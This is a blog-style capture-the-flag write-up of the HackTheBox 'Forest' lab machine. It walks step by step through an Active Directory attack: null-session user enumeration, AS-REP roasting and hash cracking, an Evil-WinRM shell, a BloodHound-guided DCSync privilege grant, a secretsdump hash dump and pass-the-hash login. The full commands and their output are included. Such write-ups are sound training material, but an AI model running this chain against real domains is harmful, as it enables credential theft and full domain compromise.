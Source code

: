 ```yaml
---
title: "HackTheBox Forest"
date: 2022-11-11T19:09:00+01:00
draft: false 
---
```


Exploit a domain controller that allows us to enumerate users over RPC, attack Kerberos 
with AS-REP Roasting, and use Evil-WinRM to get a shell. Then using Bloodhound we can take
advantage of the permissions of some user that allow us to dump admin hash to get a shell as admin.
<!--more-->

# **Introduction**

It's been a long time since I posted my last writeup, now I'm back. We start with a cool box to begin with <span style="color:#85B5EB">Active Directory</span>.

## **Nmap**
Let's start with the nmap scan which shows us typical open ports for a Windows machine :

```text
# Nmap 7.91 scan initiated Tue Jul 13 06:49:02 2021 as: nmap -sC -sV -o output_nmap.txt 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.079s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-13 10:59:12Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## **SMB**

We can see that port 445 is open, which is the SMB port. Let's use with smbmap to see if we can access some shares :

```text
kali@kali# smbmap -H 10.10.10.161
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.161...
[+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
        Disk    Permissions                                             
        ----     -----------                                               
[!] Access Denied
```
Unfortunately, we can't access the shares without a password but don't worry we can connect as null user with  <span style="color:#85B5EB">rpcclient</span> to enumerate  <span style="color:#85B5EB">users</span> and  <span style="color:#85B5EB">groups</span> : 

```text
kali@kali# rpcclient -U "" -N 10.10.10.161
rpcclient $>
```
Then use enumdomusers command to get a list of users :

```text
rpcclient $> enumdomusers              
user:[Administrator] rid:[0x1f4]       
...[snip]...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```
Above you can see a list of potential user which might be  <span style="color:#85B5EB">vulnerable</span> to something.

## **Own user svc-alfresco**

 Now what can we do with these users ? We can use a method called  <span style="color:#85B5EB">AS-REP Roasting</span>  to get the password hashes of these users.
This method require the user to have the <span style="color:#85B5EB"> don't require Kerberos pre-authentication</span>  option enabled. We can check this with a script from impacket collection : 
``` 
/opt/tool/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 -usersfile users.txt htb/
```
Jackpot ! We got the hash of the user <span style="color:#85B5EB">svc-alfresco</span>. We can crack his hashes with hashcat :
```
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt 
```
Hashcat easily cracked the password : <span style="color:#85B5EB">s3rvice</span>.

Finally we can use these credentials to log in as svc-alfresco using <span style="color:#85B5EB">Evil-WinRM</span> :

```
kali@kali# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
                                                         
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
From There we can grab the user flag : 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
************************     
```

## **Time for Root**

From there I just collected data using  <span style="color:#85B5EB">bloodhound-python</span>
so we can import the  <span style="color:#85B5EB">.json files</span> in BloodHound :
```
bloodhound-python -u svc-alfresco -p 's3rvice' -d htb.local -ns 10.10.10.161 -c DcOnly
```

After importing the data, under  <span style="color:#85B5EB">Queries</span>, just click on   <span style="color:#85B5EB">Find Shorter Paths to Domain Admin</span>, and we get the following graph:
![image text](/bloodhound.png)

Basically svc-alfresco is a member of  <span style="color:#85B5EB">Privileged IT Account</span>, which is a member of  <span style="color:#85B5EB">Account Operators</span>, so it’s like my user is a member of <span style="color:#85B5EB">Account Operators</span> and Account Operators has Generic All privilege on the <span style="color:#85B5EB">Exchange Windows Permissions</span> group. If I click on the edge in Bloodhound, and select help, there’s an <span style="color:#85B5EB">Abuse Info</span> tab in the pop up that displays:

![image text](/abuse_info.png)

The Exchange Windows Permissions group has <span style="color:#85B5EB">WriteDacl</span>
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. In other words we can add a user to this group and give them <span style="color:#85B5EB">DCSync privileges<span>.

Let's go back to our shell and create a new user, add him to Exchange Windows Permissions group :

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net user add achla Pa$$sw0rd! /add /domain
```
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net group "Exchange Windows Permissions" achla /add
```

After importing [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script we can
use the Add-ObjectACL with achla's credentials, and give him DCSync rights.

```
$pass = ConvertTo-SecureString 'Pa$$sw0rd!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\achla', $pass)
Add-ObjectAcl -Credential $Cred -PrincipalIdentity achla -Rights DCSync
```

To conclude I used the <span style="color:#85B5EB">secretdump</span> script from impacket to get the NTLM hashes for all domain users.
```
kali@kali# /opt/tool/impacket/examples/secretsdump.py achla:Pa$$w0rd!@10.10.10.161

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 
```

We've got the hash for Administrator, let's just login using psexec (or Evil-WinRM).

```
kali@kali# /opt/tool/impacket/examples/psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
Just grab the root flag in Administrator's Desktop and voila.
That all for me, thanks for reading.